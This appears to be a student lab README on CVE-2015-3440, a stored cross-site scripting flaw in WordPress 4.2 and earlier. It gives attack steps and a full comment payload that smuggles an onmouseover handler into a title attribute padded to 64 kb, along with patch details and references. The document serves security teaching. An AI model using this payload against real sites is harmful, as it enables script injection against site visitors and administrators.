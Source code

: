 # Steps
#### Step 1 - Gain trust from the admin
######	Create a comment on a post.

#### Step 2 - Wait
###### Wait for approval from the admin.

#### Step 3 - Inject XSS
######	Comment the payload.
	<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>




# The types / classes of vulnerabilities involved and any related CVE identifiers
#### Unauthenticated Stored Cross-Site Scripting (XSS)

#### CVE-2015-3440 



# Affected versions and patches
#### Affected version
###### WordPress <= 4.2 

#### Patched in
###### version 4.2.1



# Demo
![alt text](https://github.com/Mikhail-Kreytser/Cybersecurity-Week7/blob/master/XSS/Demo.gif "XSS Demo")

# References
#### https://klikki.fi/adv/wordpress2.html
#### https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-3440
